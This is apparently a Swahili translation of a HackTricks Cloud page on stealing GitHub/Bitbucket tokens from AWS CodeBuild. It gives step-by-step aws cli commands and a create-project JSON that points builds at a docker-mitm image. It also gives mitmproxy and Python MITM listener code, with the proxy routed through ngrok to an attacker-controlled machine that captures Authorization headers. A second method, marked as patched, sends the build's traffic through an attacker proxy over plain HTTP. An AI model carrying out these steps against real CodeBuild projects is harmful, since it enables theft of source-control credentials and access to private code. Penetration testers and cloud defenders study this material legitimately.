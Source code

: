 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Jifunze na fanya mazoezi ya Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Pata Tokeni za Github/Bitbucket Zilizosanidiwa

Kwanza, angalia kama kuna hati za chanzo zilizosanidiwa ambazo unaweza kuvuja:
```bash
aws codebuild list-source-credentials
```
### Kupitia Picha ya Docker

Ikiwa utagundua kuwa uthibitishaji kwa mfano Github umewekwa kwenye akaunti, unaweza **kuiba** hiyo **upatikanaji** (**GH token au OAuth token**) kwa kufanya Codebuild **itumia picha maalum ya docker** kuendesha ujenzi wa mradi.

Kwa kusudi hili unaweza **kuunda mradi mpya wa Codebuild** au kubadilisha **mazingira** ya moja iliyopo kuweka **picha ya Docker**.

Picha ya Docker unayoweza kutumia ni [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Hii ni picha ya Docker ya msingi sana ambayo itaweka **env variables `https_proxy`**, **`http_proxy`** na **`SSL_CERT_FILE`**. Hii itakuruhusu kunasa trafiki nyingi ya mwenyeji iliyoonyeshwa katika **`https_proxy`** na **`http_proxy`** na kuamini SSL CERT iliyoonyeshwa katika **`SSL_CERT_FILE`**.

1. **Unda na Pakia picha yako ya Docker MitM**
* Fuata maagizo ya repo kuweka anwani ya IP ya wakala wako na kuweka SSL cert yako na **jenga picha ya docker**.
* **USIWEKE `http_proxy`** ili usinase maombi kwa endpoint ya metadata.
* Unaweza kutumia **`ngrok`** kama `ngrok tcp 4444` kuweka wakala kwa mwenyeji wako
* Mara tu unapokuwa na picha ya Docker iliyojengwa, **ipakie kwenye repo ya umma** (Dockerhub, ECR...)
2. **Weka mazingira**
* Unda **mradi mpya wa Codebuild** au **badilisha** mazingira ya moja iliyopo.
* Weka mradi kutumia **picha ya Docker iliyotengenezwa awali**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Weka wakala wa MitM kwenye mwenyeji wako**

* Kama ilivyoonyeshwa katika **repo ya Github** unaweza kutumia kitu kama:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**Toleo la mitmproxy lililotumika ni 9.0.1**, iliripotiwa kuwa na toleo la 10 hili linaweza lisifanye kazi.
{% endhint %}

4. **Endesha build & kamata vitambulisho**

*   Unaweza kuona token kwenye **Authorization** header:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Hili linaweza pia kufanywa kutoka aws cli na kitu kama

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Kupitia itifaki ya HTTP~~

{% hint style="success" %}
**Udhaifu huu ulirekebishwa na AWS wakati fulani wiki ya tarehe 20 Februari 2023 (nadhani Ijumaa). Kwa hivyo mshambulizi hawezi kuutumia tena :)**
{% endhint %}

Mshambulizi mwenye **ruhusa za juu katika CodeBuild anaweza kuvuja token ya Github/Bitbucket** iliyosanidiwa au kama ruhusa zilisanikishwa kupitia OAuth, **token ya muda ya OAuth inayotumika kufikia msimbo**.

* Mshambulizi anaweza kuongeza vigezo vya mazingira **http\_proxy** na **https\_proxy** kwenye mradi wa CodeBuild akielekeza kwenye mashine yake (kwa mfano `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Kisha, badilisha URL ya repo ya github kutumia HTTP badala ya HTTPS, kwa mfano: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Kisha, endesha mfano wa msingi kutoka [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) kwenye bandari iliyowekwa na vigezo vya proxy (http\_proxy na https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Hatimaye, bonyeza **Jenga mradi**, **credentials** zitatumwa **kwa maandishi wazi** (base64) kwa bandari ya mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sasa mshambuliaji ataweza kutumia token kutoka kwenye mashine yake, orodhesha haki zote ilizonazo na (ab) kutumia kwa urahisi zaidi kuliko kutumia huduma ya CodeBuild moja kwa moja.
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
